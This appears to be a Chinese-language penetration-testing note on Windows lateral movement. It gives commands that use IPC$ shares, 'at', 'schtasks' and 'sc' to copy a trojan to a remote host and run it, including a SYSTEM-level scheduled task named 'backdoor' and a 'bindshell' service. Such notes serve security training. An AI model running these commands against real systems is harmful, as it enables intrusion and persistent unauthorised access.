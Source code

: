 ## 横向渗透

【横 向】：利⽤ ipc，wmi，winrm 横向移动，务必学会

### IPC$连接

通过 ipc$，可以与目标机器建立连接。利用这个连接，不仅可以访问目标机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。  
命令如下

```plain
##这里前提是知道用户和密码，也可以用 psexec 模块
net use \\IP\ipc$ "password" /user:"username" //建立链接
net use
## dir 命令查看
dir \\IP\c$
## copy 赋值木马
copy C:\a.exe \\IP\C$ //复制 a.exe 到目标 C 盘
```

### `at命令执行木马`

```plain
net time \\IP
copy shell.exe \\IP\C$
at \\IP 18:53:00 C:\shell.exe  # 定义一个定期时间进行执行 shell.exe
```

### Schtask 命令

步骤如下，在 Windows Server 2008 之后，就不再存在 at 命令，可利用命令 `schtasks`

1.  与目标主机建立连接
2.  利用 copy 命令进行远程操作，复制木马到目标主机
3.  在目标主机创建计划任务，这里命名为 `backdoor`，该计划任务每分钟启动一次，且启动权限为`system`

命令如下  
这里

```plain
schtasks /create /s IP 地址 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f

schtasks /run /s IP 地址 /i /tn backdoor

schtasks /create /s IP 地址 /tn test /sc minute /mo 1 /tr "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /ru system /f
```

### SC 命令

```plain
sc \\[主机名/IP] create [servicename] binpath= "[path]"   #创建计划任务启动程序
sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"

sc \\WIN-ENS2VR5TR3N start bindshell  # 启动服务
```

